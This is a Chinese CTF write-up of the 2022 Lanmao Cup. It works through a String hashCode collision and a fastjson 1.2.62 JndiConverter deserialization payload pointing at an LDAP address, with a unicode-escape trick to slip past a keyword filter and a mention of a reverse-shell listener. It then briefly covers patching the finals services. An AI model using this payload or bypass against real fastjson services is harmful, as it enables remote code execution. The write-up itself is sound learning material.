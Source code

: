 # 2022 蓝帽杯 WP
## 前言

- 先说说初赛吧，初赛的题目比较简单，但是当时的我太菜了哈哈，不会。

现在正好趁着这个机会一起写了复现一遍。

## 初赛
### ezgadget

#### 题目分析

- 是一道 fastjson 1.2.62 的反序列化，当时还不会，现在就简单多了，尝试复现一下。

漏洞接口在 `/json` 这里

首先要求我们输入的参数 str 的 hashCode 与 secret 的 hashCode 相同，这个蛮简单的。

当时这一步也是出来了，因为简单看了一下 hashCode 的加密方法，是这样的。

hashCode() 方法用于返回字符串的哈希码。

字符串对象的哈希码根据以下公式计算：

```none
s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]
```

使用 int 算法，这里 `s[i]` 是字符串的第 i 个字符的 ASCII 码，n 是字符串的长度，`^` 表示求幂。空字符串的哈希值为 0。

当时我就想到了，既然如此，那我只要保证前两位的 hashCode 相同，后面一样照抄就好了。

我这里的 key 是 **5tH96uJyZ6SWxWR6**

把前两位拿出来，5t，找一个和它相同的 hashCode 即可。

根据算法：

```none
53 × 31 + 116 × 1 = 1759
```

我这里再用 

```none
( 1759 - 116 - 31 ) ÷ 31 = 52
```

经典数学问题了属于是，因为 116 + 31 的 ASCII 码没有，所以尝试这样：

```none
( 1759 - 116 + 31 ) ÷ 31 = 54
```

116 - 31 = 85 ---》 U

54 对应的是 6；所以未 6U

验证一下，确实如此。

![hash](images/hash.png)

所以这里第一步是过去了。

- 关于 fastjson 1.2.62 版本的漏洞，需要开启 AutoType，且需要存在 xbean-reflect 包。

题目这里是刚好满足的。

![pom](images/pom.png)

关于 fastjson 1.2.62 的洞的原理，可以看我这一篇文章：[Java反序列化Fastjson篇04-Fastjson1.2.62-1.2.68版本反序列化漏洞](https://drun1baby.github.io/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

直接 payload：

```json
"{

\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\", 
\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"

}"
```

但是这个地方被过滤了几个关键字：`rmi,jndi,ldap`，我们要通过 unicode 的方式来绕过:

在 `com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol` 当中可以看见，如果遇到了 `\u` 或者 `\x` 会有解码操作

![pom](images/unicode.png)

#### exp 利用

先在 VPS 开启弹 shell 服务

![pom](images/NC.png)

接着，exp 打

…………………… 麻了，复现失败。。。。

尝试着本地试一下吧


## 决赛 AWD Plus 环节
附件已经同步至 GitHub 

[Drun1baby/CTFReposityStore](https://github.com/Drun1baby/CTFReposityStore)

- AWD Plus 确实防守优先，因为防守是每轮都在加分的。

第一题：

### fish

比较简单，补完整正则即可。说实话，我感觉这个题目出的挺奇怪的，我本地访问不了他给的后面的那个文件夹，很奇怪。

至于修复的话，补正则即可

![pom](images/preg.png)


### src，webshell 检测系统

这题目没给 .sql；怎么说呢……………………

修复也比较简单，一看就是对文件上传没过滤，几分钟就做出来了

![pom](images/file.png)

### Java 题目

- 已知是一个 Java 华夏 erp v2.3 的 CMS

但是魔改了很多，比如 fastjson 的洞就是没有的，之前一直以为是未授权的洞和 sql 注入的洞，或者是 xss 的洞，但是我tmd；自己打包出了问题，真的是头大了。

就是一个 fastjson 的漏洞，真的简单，无语死了。

2022.9.30；决定回顾一下，把当时没做出来的这个修复好好看一遍。当时自己其实，问题蛮大的，还有一个是环境上的大问题，我无法打包 jar 包

所以暂定两个目的：

1. 修洞
2. 环境上，打包 jar 包的解决



